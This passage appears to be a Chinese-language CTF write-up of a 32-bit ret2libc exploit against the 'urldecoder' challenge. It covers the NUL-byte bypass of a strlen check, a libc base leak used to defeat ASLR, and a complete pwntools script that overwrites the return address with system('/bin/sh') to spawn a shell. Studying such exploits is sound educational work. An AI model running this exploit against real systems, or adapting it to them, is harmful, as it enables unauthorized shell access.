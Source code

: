 一种常见的利用方式是用libc中的system()的地址覆盖返回地址,同时在栈上布置好的参数,程序返回时就会产生一个shell

2.3.3 实践

在这儿用的程序是强网杯的urldecoder(程序见附件),再次感谢tracy_子鹏学长指点

这道题同时开了ASLR和DEP.,运行环境为32位linux

1.  分析程序后发现,前面读入数据时,只有遇到换行和EOF才会结束,但是后面检查字符串长度是用的strlen,于是可以通过在字符串中加入\x00来绕过长度检查
2.  继续分析程序流程,发现,当输入为%1\x00时就可以成功覆盖返回地址
3.  接下来就考虑利用漏洞的方法
4.  观察到溢出后,程序会多输出一些栈上的数据出来,想到可以利用输出出来的一些数据定位libc加载的基址,然后将返回地址覆盖为前面读入数据的代码地址,再读一次数据,再溢出一次,这一次执行到返回时,就执行libc中的system函数
5.  题目提供了libc,可以计算其中各函数的偏移,找到libc中system函数和/bin/sh字符串的地址,同时在栈上布置好参数,即可成功利用

下面附上exp及解释

```
from pwn import *
from zio import *

context(arch = 'i386', os = 'linux')

#注意此处ELF()的用处是后面计算偏移,你运行程序时还是用的当前系统的libc
#libc = ELF('./libc.so.6.i386')
libc = ELF('/lib/i386-linux-gnu/i686/cmov/libc.so.6')

#p = remote('119.254.101.197', 10001)
p = process('./urldecoder')

#第一次输入,获取libc中的地址信息
ret_addr = '\x90\x85\x04\x08'
payload = "http://baidu.com//%1" + "\x00" + "a"*137 + ret_addr

p.recvuntil("URL:")
p.send(payload + '\n')

data = p.recvuntil("URL:")
base_addr = data[196:200]

printf_addr = l32(base_addr) - 0x117474

offset = libc.symbols['printf'] - libc.symbols['system']
system_addr = printf_addr - offset

binsh_offset = next(libc.search('/bin/sh')) - libc.symbols['printf']
binsh_addr = binsh_offset + printf_addr

#第二次输入
ret_addr = '\x12\x12\x12\x12'
payload = "http://baidu.com//%1" + "\x00" +  "a"*137 + l32(system_addr) + ret_addr +  l32(binsh_addr)

p.send(payload + '\n')
p.interactive()

```
